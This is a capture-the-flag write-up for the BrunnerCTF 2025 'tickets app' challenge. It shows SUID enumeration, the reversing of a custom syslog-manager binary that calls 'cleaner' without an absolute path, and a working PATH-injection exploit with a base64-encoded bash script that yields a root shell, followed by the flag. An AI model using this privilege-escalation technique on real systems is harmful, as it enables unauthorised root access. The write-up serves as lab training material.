 After getting shell on the box and enumeration, you will find a custom SUID binary.

```
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/app$ find / -perm -4000 2>/dev/null
...[SNIP]...
/usr/bin/syslog-manager
```
You have a couple of subcommands to read and write to `/var/log/syslog.log`.

For the next step, you need to transfer the binary to your host for reversing.

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/ticketsapp-syslog-manager.png)

TLDR: It's a simple switch case that handles which subcommand to call, and does operations on `/var/log/syslog.log`. The interesting subcommand to us is `syslog-manager clean`.
The `local_1018` buffer is used to construct a command string and then called with system. Since `cleaner` is not an actual binary on the machine, and an absolute path is not used, we can create our own `cleaner` and call `syslog-manager clean` to call `system` with our command.

To exploit, you can use a path injection so that `cleaner` resolves to your filepath. I just used a `bash -i` payload here for `cleaner`. 
```bash
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/dev/shm$ export PATH="/dev/shm:$PATH"
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/dev/shm$ echo IyEvYmluL2Jhc2gKCmJhc2ggLWkK | base64 -d > cleaner
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/dev/shm$ chmod +x cleaner
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/dev/shm$ syslog-manager clean
root
```
Flag: `brunner{sl1pp3d_p4st_s3cur17y_4nd_g0t_b4cks74g3_4cc3ss}`

Solved by: benkyou